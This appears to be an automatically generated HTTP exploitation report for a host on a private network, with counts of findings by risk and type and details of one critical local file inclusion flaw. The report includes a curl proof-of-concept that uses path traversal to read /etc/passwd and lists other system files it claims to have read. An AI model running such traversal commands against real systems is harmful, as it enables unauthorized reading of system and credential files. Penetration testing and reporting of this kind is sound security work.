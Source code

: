# HTTP Exploitation Report
## Target: 192.168.1.50:80
## Timestamp: 2025-09-02 17:30:03

## Executive Summary
- **Total Exploits**: 11
- **Critical Risk**: 4
- **High Risk**: 4
- **Medium Risk**: 3
- **Low Risk**: 0

## Vulnerability Breakdown
- **SQL Injection**: 4
- **XSS**: 1
- **LFI**: 3
- **RCE**: 1
- **File Upload**: 0
- **Metasploit**: 0
- **phpMyAdmin Access**: 0
- **WebDAV Exploitation**: 0
- **Credential Harvesting**: 0
- **phpinfo Intelligence**: 1
- **Other**: 1

## Post-Exploitation Status
- **Session Established**: No
- **Privilege Level**: Unknown
- **System Access**: No
- **Credentials Found**: None
- **Ready for Post-Exploitation**: No

## CRITICAL Risk Exploits

### Local File Inclusion (LFI)
- **Target**: 192.168.1.50:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: LFI vulnerability exploited on http://192.168.1.50/phpinfo.php
- **PoC**: `curl 'http://192.168.1.50/phpinfo.php?file=../../../etc/passwd'`
- **Proof**: LFI confirmed with 39 successful file inclusions:
- ../../../etc/passwd: User database
- ../../../etc/group: Group database
- ../../../etc/hosts: Hosts file
- ../../../etc/resolv.conf: DNS configuration
- ../../../etc/apache2/apache2.conf: Apache configuration
